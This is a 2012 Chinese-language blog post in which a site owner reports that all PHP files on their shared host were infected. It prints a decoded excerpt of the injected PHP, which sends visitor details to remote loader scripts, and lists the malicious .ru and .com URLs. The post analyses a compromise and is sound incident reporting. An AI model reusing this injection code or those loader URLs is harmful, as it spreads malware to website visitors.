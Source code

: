 ```yaml
---
id: 1848
title: 博客被注入恶意代码
date: 2012-07-03T16:48:11+00:00
author: tanglei
layout: post
guid: http://www.tanglei.name/?p=1848
permalink: malware-code-injection
duoshuo_thread_id:
  - 1351844048792453409
enable_highlight:
  - '<link rel="stylesheet" href="../wp-content/blogresources/highlightconfig/highlight.default.min.css"><script src="../wp-content/blogresources/highlightconfig/jquery-2.1.4.min.js"></script><script src="../wp-content/blogresources/highlightconfig/enable_highlight.js"></script>'
categories:
  - 我做站长
  - 经验技巧
tags:
  - 入侵
  - 恶意代码
  - 旁注
  - 网络安全
---
```

这两天准备更新下本博客的评论，加上诸如评论啦、多说等插件，发现某些php文件貌似不太对劲。今天又收到了google的名为“Malware notification regarding tanglei.name”的邮件，再进博客后台，发现博客所有的php文件被感染，诸如下图一些加密代码。用chrome访问博客时也被拦截，提示“警告：此页面包含危险内容！**[www.tanglei.name](http://www.tanglei.name/)** 包含恶意软件。如果您访问此网站，您的计算机可能会中毒。……”

<p style="text-align: center;">
  <a href="/wp-content/uploads/2012/07/植入木马.jpg"><img class="aligncenter  wp-image-1849" title="植入木马" src="/wp-content/uploads/2012/07/植入木马.jpg" alt="网页包含恶意软件" width="640" height="331" data-pinit="registered" /></a>
</p>

再SSH进入主机，发现该主机下其他域名的所有的php文件都植入了这些代码。如图所示，我的i3zhai.com也中招了.

<p style="text-align: center;">
  <a href="/wp-content/uploads/2012/07/植入恶意代码.jpg"><img class="aligncenter  wp-image-1850" title="植入恶意代码" src="/wp-content/uploads/2012/07/植入恶意代码.jpg" alt="网页包含恶意软件" width="640" height="341" data-pinit="registered" /></a>
</p>

base64解码以上植入的恶意代码，发现以上恶意代码跟目标主机相关联的关键的几行代码:

```php
$_SERVER['s_p1']=$mz;  $_SERVER['s_b1']=$bot;  $_SERVER['s_t1']=1200;  $_SERVER['s_d1']=base64_decode('aHR0cDovL2VuczEyMnp6emRkYXp6LmNvbS8=');  $d='?d='.urlencode($_SERVER["HTTP_HOST"])."&#038;p=".urlencode($_SERVER["PHP_SELF"])."&#038;a=".urlencode($_SERVER["HTTP_USER_AGENT"]); 
$_SERVER['s_a1']=base64_decode('aHR0cDovL3BtZ2N6a2luZml1bS5ydS9nX2xvYWQucGhw').$d;  $_SERVER['s_a2']=base64_decode('aHR0cDovL2luZmlwbWcucnUvZ19sb2FkLnBocA==').$d;  
$_SERVER['s_script']="pmg.php?d=x";  
```

关键url还得base64解码，得到的url如下：

```php
http://pmgczkinfium.ru/g_load.php
http://infipmg.ru/g_load.php
http://ens122zzzddazz.com/ 
```

看来就是跟这些相关了。查了这几个url，发现也有其他站点中招了。
  
目前我能想到的解决方案就是写个脚本，在后台跑一下，把所有php中这些代码都删除掉。不过这个有风险啊，一是不知道后台允许我执行这样的脚本么，而是操作这些代码要是有个什么差错的话就惨了。目前联系了主机提供商，看看他们有什么解决方案。
  
暂且就不管了吧。如果你现在能看到这篇文章就是忽略浏览器的拦截了。呵呵。待解决……
